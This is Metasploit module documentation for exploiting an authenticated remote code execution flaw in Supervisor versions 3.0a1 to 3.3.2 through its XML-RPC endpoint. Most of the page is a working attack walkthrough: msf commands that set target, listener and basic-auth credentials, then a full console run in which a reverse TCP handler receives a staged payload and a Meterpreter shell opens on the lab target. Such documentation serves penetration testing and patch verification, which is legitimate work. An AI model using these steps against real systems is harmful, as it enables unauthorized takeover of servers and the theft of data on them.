 ## Vulnerable Application

  This module exploits an authenticated RCE vulnerability in Supervisor versions 3.0a1 to 3.3.2
  
  This has been tested with versions 3.2.0 and 3.3.2

## Verification Steps

  1. ```msf > use exploit/linux/http/supervisor_xmlrpc_exec```
  2. ```msf > set lhost 192.168.0.2```
  3. ```msf > set rhost 192.168.0.19```
  4. ```msf > set httpusername user``` (optional)
  5. ```msf > set httppassword 123``` (optional)
  6. ```msf > exploit```
  7. A meterpreter session should have been opened successfully

## Options

  - `HttpUsername` - Username for HTTP basic auth (optional)
  - `HttpPassword` - Password for HTTP basic auth (optional)
  - `TARGETURI` - The path to the XML-RPC endpoint

## Scenarios

  ```
msf > use exploit/linux/http/supervisor_xmlrpc_exec 
msf exploit(supervisor_xmlrpc_exec) > set httpusername user
httpusername => user
msf exploit(supervisor_xmlrpc_exec) > set httppassword 123
httppassword => 123
msf exploit(supervisor_xmlrpc_exec) > set lhost 192.168.0.2
lhost => 192.168.0.2
msf exploit(supervisor_xmlrpc_exec) > set rhost 192.168.0.19
rhost => 192.168.0.19
msf exploit(supervisor_xmlrpc_exec) > check 

[*] Extracting version from web interface..
[*] Using basic auth (user:123)
[+] Vulnerable version found: 3.2.0
[*] 192.168.0.19:9001 The target appears to be vulnerable.
msf exploit(supervisor_xmlrpc_exec) > exploit 

[*] Started reverse TCP handler on 192.168.0.2:4444 
[*] Sending XML-RPC payload via POST to 192.168.0.19:9001/RPC2
[*] Using basic auth (user:123)
[*] Sending stage (2878872 bytes) to 192.168.0.19
[*] Command Stager progress - 100.00% done (782/782 bytes)
[+] Request timeout, usually indicates success. Passing to handler..
[*] Meterpreter session 1 opened (192.168.0.2:4444 -> 192.168.0.19:36186) at 2017-08-30 01:24:45 +0100

meterpreter > 
```
